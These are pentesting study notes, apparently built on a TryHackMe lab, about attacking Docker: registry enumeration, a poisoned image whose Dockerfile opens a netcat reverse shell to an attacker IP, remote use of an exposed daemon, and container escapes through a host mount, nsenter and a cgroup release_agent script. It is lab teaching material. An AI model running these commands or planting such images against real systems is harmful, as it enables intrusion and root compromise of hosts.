


# Docker Exploitation and Docker vulnerabilities

> This page is in web pentest but Docker can be found in other type of pentests such as network pentest for instance.  
> It can also be used for privesc on linux among other things.
> *This documentation has been made using the room [The Docker Rodeo on TryHackMe](https://tryhackme.com/room/dockerrodeo) and of course notes from my practice*  

## Abusing a Docker Registry

We can launch an nmap scan to check on which port a Docker registry is running `nmap -sV -p- 10.10.137.64`  

  

The Docker Registry is a JSON endpoint, so we cannot just simply interact with it like we would a normal website - we will have to query it. Whilst this can be done via the terminal or browser, dedicated tools such as [Postman](https://www.postman.com/downloads/) or [Insomnia](https://insomnia.rest/download/) are much better suited for the job.  
We can also use Burp and forge requests with the repeater for example. In the room Cnmatic uses Postman but I am going to use Burp.  

- We can send a `GET` request to `http://target:5000/v2/_catalog` to list all the repositories.

  

- To query all published tags of a repository we can send a `GET` request to `http://target:5000/v2/repository/name/tags/list`

  

- To get a manifest file to the repository we found we can send a `GET` request to `http://target:5000/v2/repository/name/manifests/tag`

  

> Not to edit the targe in burp repeater you need to click here  and edit the window according to your needs  

  

### Example with a registry on port 7000

Abusing the Registry on port 7000  

- List the repos


- List the published tags


- Grab data


## Reverse Engineering Docker Images

We can pull the image locally and reverse engineer it with Dive.

### Dive

- [Dive official repo](https://github.com/wagoodman/dive#installation)
- Install on Ubuntu

```bash
export DIVE_VERSION=$(curl -sL "https://api.github.com/repos/wagoodman/dive/releases/latest" | grep '"tag_name":' | sed -E 's/.*"v([^"]+)".*/\1/')
curl -OL https://github.com/wagoodman/dive/releases/download/v${DIVE_VERSION}/dive_${DIVE_VERSION}_linux_amd64.deb
sudo apt install ./dive_${DIVE_VERSION}_linux_amd64.deb
```

- We can pull the image `docker pull target:5000/dive/example`
- `docker images` to get the image ID
- `dive image-id`
  - Navigate the data within the current window using the "Up" and "Down" Arrow-keys.
  - You can swap between the Windows using the "Tab" key.

### Example of view in Dive


## Uploading Malicious Docker Images

Without proper authentication, we can upload our own image to the target's registry. That way, the next time the owner runs a `docker pull` or `docker run` command, their host will download and execute our malicious image as it will be a new version for Docker.  

- Dockerfile that will connect to our machine with netcat

```yml
FROM debian:jessie-slim

RUN apt-get update -y
RUN apt-get install netcat -y
RUN nc -e /bin/sh <ATTACKING-MACHINE-IP> 8080
```

We compile this into an image with docker build . Once compiled and added to the vulnerable registry, we set up a listener on our attacker machine and wait for the new image to be executed by the target.

- `rlwrap nc -lvnp 8080`

This way we will get access as root to the container. The next step will be to try to escape the container or privesc one way or another.

## RCE via Exposed Docker Daemon

Sometimes Docker can be set up to be used remotely, this way when enumerating a target with nmap we might find docker running on a target.  

- `curl http://TARGET-IP:2375/version` Check if we can interact with the Docker Daemon. If it works we get a result looking like this.  


- `docker -H tcp://TARGET-IP:2375 ps` list the currently running container the H flag allows us to specify the IP of our remote target.


## Escape via Exposed Docker Daemon

- Once we have a foothold we can try to escape Docker
- Look for exposed docker socket

  

- `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` mount the host directory to a new container and then connect to that to reveal all the data on the host OS

> Note: If you do not receive any output after 30 seconds you will need to cancel the command by "Ctrl + C" and attempt to run it again.

  

## Shared Namespaces

We can confirm that the container we're connected to in namespaces of the host by using `ps aux`.  
To escape the Docker, we can use the following exploit: `nsenter --target 1 --mount sh` which does the following:

1. We use the `--target` switch with the value of "1" to execute our shell command that we later provide to execute in the namespace of the special system process ID, to get ultimate root!

2. Specifying `--mount` this is where we provide the mount namespace of the process that we are targeting. "If no file is specified, enter the mount namespace of the target process." (Man.org., 2013)

3. As we are targeting  the "/sbin/init" process #1 (although it's actually a symbolic link to "lib/systemd/systemd" for backwards-compatibility), we are using the namespace and permissions of the systemd daemon for our new process (the shell)

4. Here's where our process that will be executed into this privileged namespace: `sh` or a shell. This will execute in the same namespace (and therefore privileges of) the kernel.


## Misconfigured privileges

Docker containers can run in two modes:

- User mode
- Privileged mode

  

If a container is running with privileged access to the operating system, we can effectively execute commands as root.  
We can use a system package such as "libcap2-bin"'s `capsh` to list the capabilities our container has: `capsh --print`.

### Example

- `capsh --print | grep sys_admin`

  

- [Capabilitires](https://linux.die.net/man/7/capabilities)

```bash
1. mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x  
2. echo 1 > /tmp/cgrp/x/notify_on_release
3. host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
4. echo "$host_path/exploit" > /tmp/cgrp/release_agent
5. echo '#!/bin/sh' > /exploit
6. echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
7. chmod a+x /exploit
8. sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Summary of the exploit:

1. We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to manage processes on the operating system since we have capabilities to manage "cgroups" as root on the host, we'll mount this to "/tmp/cgrp" on the container.
2. For our exploit to execute, we'll need to tell Kernel to run our code. By adding "1" to "/tmp/cgrp/x/notify_on_release", we're telling the kernel to execute something once the "cgroup" finishes. [(Paul Menage., 2004)](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)
3. We find out where the containers files are stored on the host and store it as a variable
4. Where we then echo the location of the containers files into our "/exploit" and then ultimately to the "release_agent" which is what will be executed by the "cgroup" once it is released.
5. Let's turn our exploit into a shell on the host
6. Execute a command to echo the host flag into a file named "flag.txt" in the container, once "/exploit" is executed
7. Make our exploit executable!
8. We create a process and store that into "/tmp/cgrp/x/cgroup.procs"


## Determine if we are in a container

- Run `ps aux` (if there are not many process it could be a container)
- Look for dockerenv `cd / && ls -lah`
- Look for cgroups `cd /proc/1` and `cat cgroup` (should contain the word docker)

## Resources

### Tools

- [Dive](https://github.com/wagoodman/dive#installation)
- [Rootplease](https://registry.hub.docker.com/r/chrisfosterelli/rootplease)

### Documentation

- [Docker Registry Documentation](https://docs.docker.com/registry/spec/api/)

### Other references to Docker vulnerabilities

- [Linux privesc - Docker group](https://csbygb.gitbook.io/pentips/linux/privesc/groups#docker)

### Blogs

- [Privilege Escalation via Docker - Chris Foster](https://fosterelli.co/privilege-escalation-via-docker)
- [The Dirtyc0w kernel exploit](https://github.com/dirtycow/dirtycow.github.io)
- [Exploiting runC (CVE-2019-5736)](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/)
- [Trailofbits' capabilities demonstration](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
- [Cgroups101](https://docs.google.com/presentation/d/1WdByuxWgayPb-RstO-XaENSqVPGP7h6t3GS6W4jk4tk/htmlpresent)

### Writeups with Docker related exploits

- [HTB - Goodgames](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-goodgames)
- [HTB - Toolbox](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-toolbox)
- [TryHackMe - Ultratech](https://csbygb.gitbook.io/pentips/writeups/thmwriteups/thm-ultratech)
- [HTB - Shoppy](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-shoppy)
- [HTB - Mentor](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-mentor)
- [Proof od Concept Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)